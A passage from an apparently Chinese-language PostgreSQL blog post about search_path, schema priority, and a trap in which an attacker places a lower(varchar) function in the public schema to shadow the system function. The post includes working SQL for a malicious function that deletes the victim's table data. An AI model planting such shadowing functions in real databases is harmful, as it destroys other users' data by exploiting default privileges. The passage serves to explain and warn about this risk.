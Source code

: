 2、search_path  
  
那么当我们在查询数据库对象时，如何知道应该查哪个schema里的呢？  
  
一种方法是fullpath，写成schemaname.obj_name  
  
另一种方法是设置search_path，那么我们可以不写schemaname，也能找到对应的对象。例如(默认 ```search_path=$user, public;``` )  
  
但是如果在多个schema中，有同样的对象，那么涉及到优先级的问题。  
  
3、搜索优先级  
  
pg_catalog 高于search_path的设置。  
  
pg_catalog 是数据库的系统schema ，有最高优先级，所有的对象，如果在pg_catalog中有，那么优先使用pg_catalog的。  
  
陷阱，由于search_path默认是```$user, public```，而public schema的读写权限默认是给所有角色的。  
  
如果你没有使用fullpath的写法，而攻击者写了一个函数，并且这个函数可能是一个隐式转换前的（即完美匹配的函数），那么你的SQL将优先访问这个函数，覆盖pg_catalog中的。  
  
4、攻击  
  
普通用户a:  
  
未使用fullpath，导致有被攻击的可能。  
  
```  
create table a(id int, info varchar);  
insert into a values(1,'abcdEFG');  
select id,lower(info) from a;  
```  
  
lower系统函数，成为了一个陷阱，因为它不是varchar参数类型，用了隐式转换。  
  
```  
pp=> \df lower  
                          List of functions  
   Schema   | Name  | Result data type | Argument data types |  Type  
------------+-------+------------------+---------------------+--------  
 pg_catalog | lower | anyelement       | anyrange            | normal  
 pg_catalog | lower | text             | text                | normal  
(2 rows)  
```  
  
攻击者b:  
  
写一个函数，放到public，并且避免隐式转换.  
  
```  
create or replace function lower(varchar) returns void as $$  
declare  
begin  
  raise notice 'haha, delete your data';  
  delete from a;  
end;  
$$ language plpgsql strict SECURITY INVOKER;  
```  
  
攻击者没有删除A表记录的权限，所以自己调用会报错。  
  
但是这个陷阱是让a用户去踩的，我们看看A用户的调用。  
  